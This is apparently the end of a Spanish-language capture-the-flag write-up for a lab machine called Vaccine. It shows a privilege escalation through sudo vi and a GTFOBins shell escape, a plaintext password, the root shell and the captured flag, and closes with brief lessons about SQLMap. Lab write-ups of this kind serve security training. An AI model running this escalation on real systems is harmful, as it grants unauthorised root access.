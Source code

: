 Leemos el fichero con permiso sudo :

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
P@s5w0rd!
 #GTF OBINS : una vez dentro de vi
:set shell=/bin/sh
:shell

root@vaccine:/var/lib/postgresql/11/main\[\]$ id
uid=0(root) gid=0(root) groups=0(root)
root@vaccine:/var/lib/postgresql/11/main\[\]$ cd /root
/var/lib/postgresql/11/main\[\]$ cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

Root.txt: **dd6e058e814260bc70e9bbdef2715849**

## Conclusión

<aside>
💡 Maquina facil. Aprendemos comandos SQLMap. Tener presente tema cookie para identificarse antes de enumerar. Escalada sencilla.

</aside>